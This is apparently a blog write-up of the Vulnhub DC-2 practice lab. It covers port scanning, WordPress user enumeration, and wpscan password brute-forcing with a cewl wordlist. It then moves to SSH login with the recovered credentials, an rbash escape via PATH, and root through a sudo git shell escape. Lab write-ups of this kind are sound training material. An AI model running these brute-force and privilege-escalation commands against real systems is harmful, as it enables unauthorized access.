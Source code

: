 ```yaml
---
title:     "Vulnhub - DC 2"
tags: [wordpress,easy,sudo,rbash]
categories: Vulnhub
---
```


![](https://raw.githubusercontent.com/0xw0lf/0xw0lf.github.io/master/img/dc2/1.1.png)
Today, We are going to pwn DC 2 by DCAU7 from Vulnhub


## Description

>Much like DC-1, DC-2 is another purposely built vulnerable lab for the purpose of gaining experience in the world of penetration testing.
As with the original DC-1, it's designed with beginners in mind.
Linux skills and familiarity with the Linux command line are a must, as is some experience with basic penetration testing tools.
Just like with DC-1, there are five flags including the final flag.
And again, just like with DC-1, the flags are important for beginners, but not so important for those who have experience.
In short, the only flag that really counts, is the final flag.
For beginners, Google is your friend. Well, apart from all the privacy concerns etc etc.
I haven't explored all the ways to achieve root, as I scrapped the previous version I had been working on, and started completely fresh apart from the base OS install.

Download link : <https://www.vulnhub.com/entry/dc-2,311/>

Lets begin with our initial nmap scan

## Nmap Scan Results

```
PORT     STATE SERVICE
80/tcp   open  http
7744/tcp open  raqmon-pdu
MAC Address: 08:00:27:E2:25:6C (Oracle VirtualBox virtual NIC)
```

```
PORT     STATE SERVICE VERSION
80/tcp   open  http    Apache httpd 2.4.10 ((Debian))
|_http-server-header: Apache/2.4.10 (Debian)
|_http-title: Did not follow redirect to http://dc-2/
|_https-redirect: ERROR: Script execution failed (use -d to debug)
7744/tcp open  ssh     OpenSSH 6.7p1 Debian 5+deb8u7 (protocol 2.0)
| ssh-hostkey: 
|   1024 52:51:7b:6e:70:a4:33:7a:d2:4b:e1:0b:5a:0f:9e:d7 (DSA)
|   2048 59:11:d8:af:38:51:8f:41:a7:44:b3:28:03:80:99:42 (RSA)
|   256 df:18:1d:74:26:ce:c1:4f:6f:2f:c1:26:54:31:51:91 (ECDSA)
|_  256 d9:38:5f:99:7c:0d:64:7e:1d:46:f6:e9:7c:c6:37:17 (ED25519)
MAC Address: 08:00:27:E2:25:6C (Oracle VirtualBox virtual NIC)
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Device type: general purpose
Running: Linux 3.X|4.X
OS CPE: cpe:/o:linux:linux_kernel:3 cpe:/o:linux:linux_kernel:4
OS details: Linux 3.2 - 4.9
Network Distance: 1 hop
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

Since there is HTTP port open, I gonna start my Gobuster

## Gobuster Results

```
===============================================================
Gobuster v3.0.1
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@_FireFart_)
===============================================================
[+] Url:            http://10.0.2.4
[+] Threads:        10
[+] Wordlist:       /usr/share/wordlists/dirb/common.txt
[+] Status codes:   200,204,301,302,307,401,403
[+] User Agent:     gobuster/3.0.1
[+] Timeout:        10s
===============================================================
2019/11/23 12:21:05 Starting gobuster
===============================================================
/.hta (Status: 403)
/.htaccess (Status: 403)
/.htpasswd (Status: 403)
/server-status (Status: 403)
/wp-admin (Status: 301)
/wp-includes (Status: 301)
/wp-content (Status: 301)
/index.php (Status: 200)
===============================================================
2019/11/23 12:21:07 Finished
===============================================================
```


Its a Wordpress site 
``Flag 1``

![](https://raw.githubusercontent.com/0xw0lf/0xw0lf.github.io/master/img/dc2/1.png)

It gives us a hint that our usual wordlist wont help us in bruteforcing the password instead cewl this page.

> cewl - custom word list generator

![](https://raw.githubusercontent.com/0xw0lf/0xw0lf.github.io/master/img/dc2/2.png)

I created the wordlist now

We know its a wordpress site so we can start our wpscan to enumerate users

![](https://raw.githubusercontent.com/0xw0lf/0xw0lf.github.io/master/img/dc2/3-0.png)

> We have 3 users - admin,tom,jerry

## Bruteforcing the users

So lets start our bruteforce using the wordlist we created from cewl.

> wpscan --url http://dc-2/ -P pass.out -U admin
![](https://raw.githubusercontent.com/0xw0lf/0xw0lf.github.io/master/img/dc2/3.png)

> wpscan --url http://dc-2/ -P pass.out -U tom
![](https://raw.githubusercontent.com/0xw0lf/0xw0lf.github.io/master/img/dc2/4.png)

> wpscan --url http://dc-2/ -P pass.out -U jerry
![](https://raw.githubusercontent.com/0xw0lf/0xw0lf.github.io/master/img/dc2/5.png)

## Getting Shell

I logged in with jerry
Found ``Flag 2``

![](https://raw.githubusercontent.com/0xw0lf/0xw0lf.github.io/master/img/dc2/6.png)




There is no templates or plugins so i tried login with the creds in ssh which is running in the port 7744

![](https://raw.githubusercontent.com/0xw0lf/0xw0lf.github.io/master/img/dc2/7.png)

I cant login with jerry but its working with ``tom:parturient``

I found flag3 but cant view them it shows some error called ``-rbash``<br/> 
![](https://raw.githubusercontent.com/0xw0lf/0xw0lf.github.io/master/img/dc2/8.png)

While googling i came to know it because of problem in PATH variable.
So i copied my system PATH and export them, now its working perfectly!!

![](https://raw.githubusercontent.com/0xw0lf/0xw0lf.github.io/master/img/dc2/9.png)

>export PATH=$PATH:/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin

According to ``Flag 3`` I came to know we can su , so i su to ``jerry:adipiscing``

and got ``Flag 4``

## Privilege Escalation

![](https://raw.githubusercontent.com/0xw0lf/0xw0lf.github.io/master/img/dc2/10.png)

This shows we can run ``git`` without root password

>https://gtfobins.github.io/gtfobins/git/

```
sudo git -p help config
!/bin/sh
```

![](https://raw.githubusercontent.com/0xw0lf/0xw0lf.github.io/master/img/dc2/11.png)
.<br/>
.<br/>
.<br/>
![](https://raw.githubusercontent.com/0xw0lf/0xw0lf.github.io/master/img/dc2/12.png)

I did according to ``GTFObins``

Got ROOT and Final Flag!!!



 